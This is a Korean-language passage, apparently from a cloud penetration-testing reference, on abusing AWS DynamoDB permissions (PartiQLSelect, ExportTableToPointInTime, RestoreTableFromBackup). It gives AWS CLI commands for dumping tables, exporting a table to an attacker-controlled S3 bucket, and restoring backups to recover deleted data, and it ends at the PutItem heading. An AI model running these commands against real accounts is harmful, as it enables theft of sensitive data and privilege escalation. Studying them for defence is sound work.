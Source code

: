 ### `dynamodb:PartiQLSelect`

이 권한을 사용하면 **테이블 전체를 쉽게 dump할 수 있습니다**.
```bash
aws dynamodb execute-statement \
--statement "SELECT * FROM ProductCatalog"
```
이 권한은 `batch-execute-statement`와 같은 작업을 수행할 수 있도록 허용합니다:
```bash
aws dynamodb batch-execute-statement \
--statements '[{"Statement": "SELECT * FROM ProductCatalog WHERE Id = 204"}]'
```
하지만 primary key에 값을 지정해야 해서, 그다지 유용하지 않다.

**Potential Impact:** 테이블에서 민감한 정보를 찾아 간접적인 privesc로 이어질 수 있음

### `dynamodb:ExportTableToPointInTime|(dynamodb:UpdateContinuousBackups)`

이 권한은 attacker가 **export the whole table to a S3 bucket**할 수 있게 한다:
```bash
aws dynamodb export-table-to-point-in-time \
--table-arn arn:aws:dynamodb:<region>:<account-id>:table/TargetTable \
--s3-bucket <attacker_s3_bucket> \
--s3-prefix <optional_prefix> \
--export-time <point_in_time> \
--region <region>
```
이 작업이 동작하려면 테이블에 point-in-time-recovery가 활성화되어 있어야 합니다. 테이블에 해당 기능이 있는지 다음과 같이 확인할 수 있습니다:
```bash
aws dynamodb describe-continuous-backups \
--table-name <tablename>
```
활성화되어 있지 않다면, **활성화해야 하며**, 이를 위해서는 **`dynamodb:ExportTableToPointInTime`** 권한이 필요합니다:
```bash
aws dynamodb update-continuous-backups \
--table-name <value> \
--point-in-time-recovery-specification PointInTimeRecoveryEnabled=true
```
**잠재적 영향:** 테이블에서 민감한 정보를 찾아내어 간접적인 privesc

### `dynamodb:CreateTable`, `dynamodb:RestoreTableFromBackup`, (`dynamodb:CreateBackup)`

이 권한이 있으면 공격자는 **백업에서 새 테이블을 생성**할 수 있습니다 (또는 다른 테이블에 복원하기 위해 백업을 생성할 수도 있습니다). 그런 다음 필요한 권한이 있다면, 그는 백업의 **정보**를 확인할 수 있으며, 그 정보는 **프로덕션 테이블에 더 이상 존재하지 않을 수 있는** 것들일 수 있습니다.
```bash
aws dynamodb restore-table-from-backup \
--backup-arn <source-backup-arn> \
--target-table-name <new-table-name> \
--region <region>
```
**잠재적 영향:** 테이블 백업에서 민감한 정보를 찾아 Indirect privesc를 초래할 수 있음

### `dynamodb:PutItem`
